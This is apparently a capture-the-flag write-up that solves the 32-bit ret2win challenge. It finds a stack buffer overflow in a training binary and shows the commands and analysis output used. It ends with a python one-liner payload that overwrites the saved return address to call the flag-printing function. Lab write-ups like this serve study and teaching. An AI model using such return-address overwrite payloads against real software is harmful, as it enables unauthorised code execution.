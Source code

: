 ## Description:
> Locate a method that you want to call within the binary. Call it by overwriting a saved return address on the stack.
## Write-up:
`ret2win32` binary is a standard Intel 32-bit ELF.
```bash
$ file ret2win32
ret2win32: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=e1596c11f85b3ed0881193fe40783e1da685b851, not stripped

```
`readelf` shows a couple of suspiciously named functions, being `pwnme` and `ret2win`:
```bash
$ readelf ret2win32 -Ws | grep FUNC
...
    36: 080485ad   127 FUNC    LOCAL  DEFAULT   14 pwnme
    37: 0804862c    41 FUNC    LOCAL  DEFAULT   14 ret2win
...
```
`checksec` shows `NX` bit is set for the binary and `PIE` is off:
```bash
$ checksec --file=ret2win32
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   72 Symbols        No    0               3               ret2win32
```
Opening this binary up in Ghidra shows `main` calls `pwnme`, which looks like:
```c
void pwnme(void)
{
  undefined local_2c [40];
  memset(local_2c,0,0x20);
  puts(
      "For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffe r!"
      );
  puts("What could possibly go wrong?");
  puts(
      "You there, may I have your input please? And don\'t worry about null bytes, we\'re using read ()!\n"
      );
  printf("> ");
  read(0,local_2c,0x38);
  puts("Thank you!");
  return;
}
```
And `ret2win` looks like:
```c
void ret2win(void)
{
  puts("Well done! Here\'s your flag:");
  system("/bin/cat flag.txt");
  return;
}
```
So to win, I need to cause a buffer overflow in `pwnme` to change the return address to `ret2win`.
![[Pasted image 20231215170018.png]]
![[Pasted image 20231215170103.png]]
Using `gdb-peda`'s pattern functionality, I have found that the offset from the buffer to the functions return address is 44 bytes.
Now, I need the address of ret2win:
```bash
gdb-peda$ p ret2win
$1 = {<text variable, no debug info>} 0x804862c <ret2win>
```
So `0x0804862c` is the address of `ret2win`. I'll now use the gathered information to build a payload.
```bash
python2 -c 'print "\x00"*44 + "\x2c\x86\x04\x08"' > payload.txt
```
Now to throw the exploit with:
```bash
./ret2win32 < payload.txt
```
![[Pasted image 20231215171642.png]]
As shown in the above picture, the exploit was successful, and the program executed the `ret2win` function which prints the "flag".